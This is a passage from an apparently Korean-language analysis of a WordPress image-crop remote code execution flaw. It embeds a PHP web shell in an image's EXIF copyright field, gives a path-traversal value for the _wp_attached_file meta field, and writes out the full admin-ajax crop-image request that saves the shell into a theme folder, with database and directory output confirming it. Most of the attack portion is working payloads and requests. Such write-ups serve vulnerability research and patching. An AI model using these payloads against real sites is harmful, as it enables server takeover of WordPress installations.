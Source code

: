 ```bash
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Copyright Notice                : <?=`$_GET[0]`?>
Application Record Version      : 4
Image Size                      : 480x270
Megapixels                      : 0.130
```

이미지 메타데이터의 CopyrightNotice 부분에 php 쉘 삽입 

---

### _wp_attached_file 정보 변조

![WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled.png](WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled.png)

![WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%201.png](WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%201.png)

![WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%202.png](WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%202.png)

업로드된 이미지 클릭 - 더 많은 상세 편집 - 업데이트 클릭시 post.php에 전달되는 요청에 **&meta_input[_wp_attached_file]=2021/05/test.jpg?/../../../../themes/twentyseventeen/shell** 파라미터 추가하여 전달

```bash
| meta_id | post_id | meta_key                | meta_value                      
+---------+---------+-------------------------+---------------------------------
|     338 |     135 | _wp_attached_file              | 2021/05/test.jpg?/../../../../themes/twentyseventeen/cropped-shell
```

DB에서 **_wp_attached_file** 변조된 것 확인됨

### crop_image() 호출하여 임의경로에 파일 저장

![WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%203.png](WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%203.png)

![WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%204.png](WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%204.png)

업로드된 이미지 클릭 - 이미지 편집 - 크기 변경 후 "크기" 버튼 클릭 시 admin-ajax.php 에 전달되는 요청에 파라미터를 변조하여 전달 

![WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%205.png](WordPress%20Image%20CROP%20RCE%20%E1%84%87%E1%85%AE%E1%86%AB%E1%84%89%E1%85%A5%E1%86%A8%20%E1%84%87%E1%85%A9%E1%84%80%E1%85%A9%E1%84%89%E1%85%A5%20%5B%E1%84%87%E1%85%B3%E1%86%AF%E1%84%85%E1%85%A9%E1%84%80%E1%85%B3%E1%84%8B%E1%85%AD%E1%86%BC%2091a63ae892ff466494f18b1df28178d9/Untitled%205.png)

```bash
action=crop-image&_ajax_nonce=<nonce>&id=<이미지ID>&cropDetails[x1]=480&cropDetails[y1]=480&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=10&cropDetails[dst_height]=10&meta_input[_wp_attached_file]=2021/05/test.jpg?/../../../../themes/twentyseventeen/shell
```

```bash
/wordpress/wp-content/themes/twentyseventeen $ ls
404.php       cropped-shell.jpg  header.php  README.txt      search.php   template-partsarchive.php   footer.php         inc         rtl.css         sidebar.phpassets        front-page.php     index.php   screenshot.png  single.php
comments.php  functions.php      page.php    searchform.php  style.css
```
